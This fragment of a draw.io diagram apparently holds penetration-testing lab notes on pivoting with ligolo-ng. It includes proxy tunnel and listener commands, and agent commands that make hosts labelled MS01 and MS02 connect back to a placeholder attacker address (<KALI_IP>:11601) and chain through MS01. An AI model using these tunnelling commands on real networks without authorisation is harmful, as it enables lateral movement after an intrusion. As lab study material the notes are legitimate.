        <mxCell id="fJw2BMpg4anfNU4B0Cz6-69" value="&lt;div&gt;session (select 2nd))&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;ifcreate ligolo0&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;tunnel_start --tun ligolo0&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:8080 --tcp&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-52">
          <mxGeometry x="10" y="330" width="270" height="130" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-70" value="ligolo-ng proxy UI" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-52">
          <mxGeometry x="160" y="85" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-71" value="ligolo-ng proxy UI" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-52">
          <mxGeometry x="160" y="306" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-58" value="On MS01" style="swimlane;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-50">
          <mxGeometry x="20" y="630" width="290" height="90" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-59" value="agent.exe -connect &amp;lt;KALI_IP&amp;gt;:11601" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-58">
          <mxGeometry x="10" y="40" width="270" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-64" value="On MS02" style="swimlane;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-50">
          <mxGeometry x="20" y="740" width="290" height="80" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-65" value="agent.exe -connect &amp;lt;MS01 IP&amp;gt;:4444 -ignore-cert" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-64">
          <mxGeometry x="10" y="40" width="270" height="30" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
